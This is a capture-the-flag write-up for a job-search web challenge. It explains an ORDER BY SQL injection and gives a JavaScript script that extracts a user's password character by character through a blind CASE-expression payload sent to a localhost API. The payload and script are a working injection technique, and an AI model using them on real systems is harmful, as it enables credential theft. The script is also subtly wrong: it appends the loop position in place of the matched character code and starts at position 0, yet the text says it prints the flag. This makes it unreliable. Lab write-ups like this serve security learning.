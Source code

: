 ## Investigation

The problem described a job searching site that listed jobs near you. They gave us the code for this problem and I've included it 
here if you wanted to try it yourself. Check it out in Local Code.

On opening up the site you're presented with this landing page:

![Landing-Page](Images/SwiftJobs-Landing.png)

Immediately you can see a list of jobs that they let you order by. ORDER BY is a SQL feature and I suspected SQL injection
at that point. Sure enough, once you go through the code, they just take the order specified by that dropdown and directly paste 
it into a SQL statement without any sanitization.

![SQL-Order-By](Images/SwiftJobs-SQL.png)

Searching for the flag in the code shows that it's just the password of a flagholder user.

![Flag-Code](Images/SwiftJobs-Flag-Code.png)

I just need to get the password of the first user from the users table.

I thought I'd experienced all that SQL injection had to offer but this was a bit humbling. A lot of exploits I tried like a
UNION on the users table didn't work. It wasn't until I did more research that I found an article on SQL injection at the ORDER
BY part of the statement. 

You can find that article here (https://portswigger.net/support/sql-injection-in-the-query-structure). Essentially, you can't directly
add clauses like UNION after the ORDER BY. You can though change the order depending on the contents of the password of that user.

For instance, I could sort by Date if, at position 0 of that user's password, the character was the ASCII equivalent of 'H'.
Otherwise sort by Salary. I can then see the response and, if was sorted by Date, conclude that the password started with the letter 
'H'.

You can do this character by character to get the whole flag.

## Solution

I wrote a script that did exactly what I described above, character by character, and put it together. You could do this kind of thing
manually but a script will save you a lot of time and grief.

I sorted by ID if it matched my character and by title if not. That meant I could just look at the first member of response array. If
it had an ID of 1, it sorted by ID and so that character was in that position of the password. You can see my code below:

```
const apiCall = async (position, asciiCODE) => {
  let body = {
    order: `(CASE WHEN (SELECT ASCII(SUBSTRING(password,${position}, 1)) FROM users)=${asciiCODE} THEN id ELSE title END) ASC`,
  };

  const response = await fetch("http://localhost:1337/api/list", {
    method: "POST",
    mode: "cors",
    cache: "no-cache",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify(body),
  });

  const text = await response.json();
  return text;
};

const getFlag = async () => {
  let flag = "";

  for (let i = 0; i < 36; i++) {
    for (let j = 0; j < 127; j++) {
      let res = await apiCall(i,j);

      if (res[0].id === 1) {
        flag += String.fromCharCode(i)
        break;
      }
    }
  }

  console.log("flag: ", flag);
};
```

Running this outputs the flag into the console as expected.

![Final-Flag](Images/SwiftJobs-FinalFlag.png)